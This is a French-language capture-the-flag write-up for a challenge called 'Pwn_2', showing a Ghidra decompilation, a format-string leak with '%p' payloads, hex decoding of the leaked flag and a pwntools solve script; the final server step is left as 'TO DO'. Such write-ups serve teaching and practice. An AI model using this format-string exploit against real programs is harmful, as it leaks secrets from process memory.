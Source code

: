 # Pwn_2

```console
$ ./pwn_2 
Segmentation fault (core dumped)
```

Le programme ne semble pas fonctionner, analysons le avec Ghidra.

## Analyse statique

Avec Ghidra nous obtenons :

```C
undefined8 main(void)
{
  char file_content [64];
  char user_input [56];
  FILE *fd;
  
  fd = fopen("flag.txt","r");
  fgets(file_content,49,fd);
  puts(&DAT_00402278);
  fgets(user_input,49,stdin);
  puts(&DAT_004022e8);
  printf(user_input);
  return 0;
}
```

Le programme ouvre le contenu du fichier `flag.txt`, pour le lancer localement il faudra en créer un :

```console
$ echo "coucou" > flag.txt

$ ./pwn_2 
Oh, tu te crois malin ? Vas-y envoie-moi un payload, ça ne marchera pas ! Mes défenses sont impénétrables.
test
Tu vois à quel point tes tentatives sont inutiles ?
test
```

Cette fois-ci pas de buffer overflow mais un [format string](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/) : `printf(user_input);`.

Le programme ouvre aussi un fichier `flag.txt` sans en afficher le contenu. Essayons d'en exfiltere le contenu avec le format string.

## Analyse dynamique

On crée un faux flag :

```console
$ echo "SSI{TESTING_THIS}" > flag.txt
```

Le programme prend un input de 49 bytes : `fgets(user_input,49,stdin);`. Utilisons le format string pour afficher autant de bytes de le stack que possible :

```python
>>> "%p."*(49//3)
'%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.'
```

```console
$ cp ~/Documents/LABOC./pwn_2 
Oh, tu te crois malin ? Vas-y envoie-moi un payload, ça ne marchera pas ! Mes défenses sont impénétrables.
%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
Tu vois à quel point tes tentatives sont inutiles ?
0x4c01490.(nil).0x7f261c880504.(nil).0x1.0x545345547b495353.0x534948545f474e49.0xa7d.0x7ffceb8cdb28.0x9e00000006.(nil).(nil).(nil).0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.
```

Pour cette étape nous pouvons aller voir dans GDB pour y voir plus claire, mais nous pouvons aussi repérer cette suite hexadécimale qui ressemble de l'ASCII :

```
0x545345547b495353.0x534948545f474e49.0xa7d
```

```python3
>>> (len("0x545345547b495353")-2)//2
8
>>> 0x545345547b495353.to_bytes(8, 'little')
b'SSI{TEST'
```

Il s'agit donc bien du début du flag que nous avons mis dans `flag.txt`.

## Exploit

```python
from pwn import *
import math

payload = b"%p."*(50//3)

p = process("./pwn_2")
p.send(payload+b"\n")
data = p.recv()
data = data.split(b"\n")[-1].split(b".")[5:]

flag = b""
for i in data:
    if i != b"":
        flag += int(i, 16).to_bytes(math.ceil((len(i)-2)/2), 'little')
    if b"}" in flag:
        print(f"Flag : {flag}")
        p.close()
        exit()
p.close()
```

```console
$ python3 solve.py 
[+] Starting local process './pwn_2': pid 54497
[*] Process './pwn_2' stopped with exit code 0 (pid 54497)
Flag : b'SSI{TESTING_THIS}\n'
```

Plus qu'à lancer sur le serveur :

## TO DO
